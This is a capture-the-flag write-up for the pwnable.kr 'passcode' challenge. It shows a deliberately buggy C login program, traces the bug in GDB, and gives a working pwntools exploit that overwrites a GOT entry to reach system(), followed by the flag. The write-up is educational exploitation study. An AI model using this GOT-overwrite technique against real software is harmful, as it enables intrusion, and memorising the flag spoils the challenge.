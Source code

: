 ```yaml
---
title: "Binary Exploitation | Pwnable.kr - passcode"
permalink: "binary-exploitation/pwnablekr/:title"
layout: post
---
```


> Challenge description:
>
> Mommy told me to make a passcode based login system.
> My initial C code was compiled without any error!
> Well, there was some compiler warning, but who cares about that?




```c
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
    scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
        printf("Login OK!\n");
        system("/bin/cat flag");
    }
    else {
        printf("Login Failed!\n");
		exit(0);
    }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

This challenge was a bit frustrating at first so let's go easy.

First there is a call to `welcome()` which takes 100 characters of input and prints a welcome message, nothing wrong with it.

After that we have a call to `login()` which reads two integers (or it was intended to do that), then compares them with two constants and if they match we get the flag.

If you compiled this code you will get:

```
warning: format ‘%d’ expects argument of type ‘int *’, but argument 2 has type ‘int’
```

That's a very famous `C` warning, the code is passing the variable itself instead of a pointer to it which will cause an arbitrary memory write and might cause an access violation.

if we run the program and enter two numbers we will get a segmentation fault:

```
$ ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!
enter passcode1 : 1
enter passcode2 : 1
Segmentation fault (core dumped)
```

The first `scanf()` for `passcode1` works just fine, we are writing to an arbitrary memory location but it somehow passed.

If only we could control where to write, we can overwrite any GOT entry with the address of the assembly instructions that calls `system("/bin/cat flag")` and we are done. 

Time for GDB:

```
gef➤  disassemble login 
Dump of assembler code for function login:
.....
   0x0804857c <+24>:	mov    edx,DWORD PTR [ebp-0x10]
   0x0804857f <+27>:	mov    DWORD PTR [esp+0x4],edx
   0x08048583 <+31>:	mov    DWORD PTR [esp],eax
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    eax,ds:0x804a02c
.....

gef➤  b *0x0804857c
Breakpoint 1 at 0x804857c

gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : test
Welcome test!

gef➤  x/xw $ebp-0x10
0xffffd018:	0xffffd074
```

As you can see, $ebp-0x10 which is the variable `passcode1` is pointing to `0xffffd074` (the address scanf() is writing to).

The trick of this challenge is that after a function stack frame is destroyed, the next function will start at the same base pointer:

```
 Func1
-------
| esp |
| ... |		 Func2
| ... |		-------
| ... |		| esp |
| ... |		| ... |
| ... |		| ... |
| ebp |		| ebp |		same base pointer
-------		-------				
```

Now it's time to make use of `welcome()` function, some values of the `input` array will be at the stack frame of `login()` function, we can use `pwn cyclic` to generate a pattern of 100 characters and fill the `input` array to see what happens.

```
$ pwn cyclic 100
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
```

```
gef➤  r
Starting program: /home/night-wolf/Downloads/passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Welcome aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa!

gef➤  x/20xw $esp
0xffffd000:	0x61616173	0x61616174	0x61616175	0x61616176
0xffffd010:	0x61616177	0x61616178	0x61616179	0xac31af00
0xffffd020:	0xf7fa5000	0xf7fa5000	0xffffd048	0x08048684
0xffffd030:	0x080487f0	0x00000000	0x080486a9	0x00000000
0xffffd040:	0xf7fa5000	0xf7fa5000	0x00000000	0xf7ddafb9

gef➤  x/xw $ebp-0x10
0xffffd018:	0x61616179
```

As you can see, some values of `input` are still present in the `login()` stack frame, and also the `passcode1` variable is overwritten with these values. To know the offset of these values from the beginning of the `input` array we can use `pwn cyclic` again with the value `0x61616179` which is the string `yaaa` (remember little endianness).

```
$ pwn cyclic -l yaaa
96
```

The value of `passcode1` is overwritten by input[96] to input[99], unfortunately these are the last 4 bytes of `input` array so we cannot overwrite `passcode2` (it would be too easy).

Back to our plan, now we have the ability to write to any arbitrary memory location we want, let's overwrite some GOT entries :)

Using objdump we can get the addresses of the GOT entries:

```
$ objdump -R passcode 

passcode:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049ff0 R_386_GLOB_DAT    __gmon_start__
0804a02c R_386_COPY        stdin@@GLIBC_2.0
0804a000 R_386_JUMP_SLOT   printf@GLIBC_2.0
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
0804a008 R_386_JUMP_SLOT   __stack_chk_fail@GLIBC_2.4
0804a00c R_386_JUMP_SLOT   puts@GLIBC_2.0
0804a010 R_386_JUMP_SLOT   system@GLIBC_2.0
0804a014 R_386_JUMP_SLOT   __gmon_start__
0804a018 R_386_JUMP_SLOT   exit@GLIBC_2.0
0804a01c R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
0804a020 R_386_JUMP_SLOT   __isoc99_scanf@GLIBC_2.7
```

The address of `fflush()` which is `0x0804a004` seems good, it doesn't contain any bad characters like `\x00 or \x0a`.

Now to get the address of the assembly instructions that calls `system("/bin/cat flag")`:

```
gef➤  disassemble login
.....
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
.....
```

It's at `0x080485e3`, now get have all the pieces to complete this challenge. Remember that we need to send this address as a number string not as hex values.

# Solution:

```python
# solve.py

from pwn import *

buf = ""
buf += 'A' * 96		# offset to passcode1 
buf += p32(0x0804a004)	# passcode1 pointing to fflush GOT entry
buf += str(0x080485e3)	# send as a number not an address

print(buf)
```

```
$ python /tmp/solve.py | ./passcode 
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Flag: `Sorry mom.. I got confused about scanf usage :(`